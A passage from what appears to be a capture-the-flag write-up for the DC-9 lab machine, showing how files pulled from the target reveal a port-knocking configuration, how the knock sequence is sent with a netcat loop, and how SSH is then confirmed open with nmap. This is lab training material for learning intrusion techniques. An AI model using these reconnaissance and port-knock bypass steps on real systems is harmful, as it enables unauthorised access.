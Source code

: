 ```bash
┌──(bravosec㉿fsociety)-[~/pgplay/DC-9]
└─$ dfuf -o ffuf.json -od ffuf ffuf_dump
[+] Done! Extracted files saved to /home/kali/pgplay/DC-9/ffuf_dump
```

Check for configs that contains string `22` or `ssh`

```bash
┌──(bravosec㉿fsociety)-[~/pgplay/DC-9/ffuf_dump/etc]
└─$ grep -rin 22 --color=always | grep -v 'ssh/moduli' --color=never
```

![](/assets/obsidian/8aed08093d083726f18ab1aca28a5264.png)

`/etc/knockd.conf` is for **port knocking**

```bash
┌──(bravosec㉿fsociety)-[~/pgplay/DC-9/ffuf_dump/etc]
└─$ cat knockd.conf
[...]
[openSSH]
        sequence    = 7469,8475,9842
        seq_timeout = 25
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
        tcpflags    = syn

[closeSSH]
        sequence    = 9842,8475,7469
        seq_timeout = 25
        command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
        tcpflags    = syn
[...]
```

Knock the ports with netcat

```bash
┌──(bravosec㉿fsociety)-[~/pgplay/DC-9]
└─$ for p in $(echo "7469 8475 9842"|xargs); do nc DC-9 $p -v; done
DC-9 [192.168.198.209] 7469 (?) : Connection refused
DC-9 [192.168.198.209] 8475 (?) : Connection refused
DC-9 [192.168.198.209] 9842 (?) : Connection refused
```

Now ssh has opened

```bash
┌──(bravosec㉿fsociety)-[~/pgplay/DC-9]
└─$ sudo nmap -p 22 DC-9
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-04 13:15 CST
Nmap scan report for DC-9 (192.168.198.209)
Host is up (0.27s latency).

PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.72 seconds
```
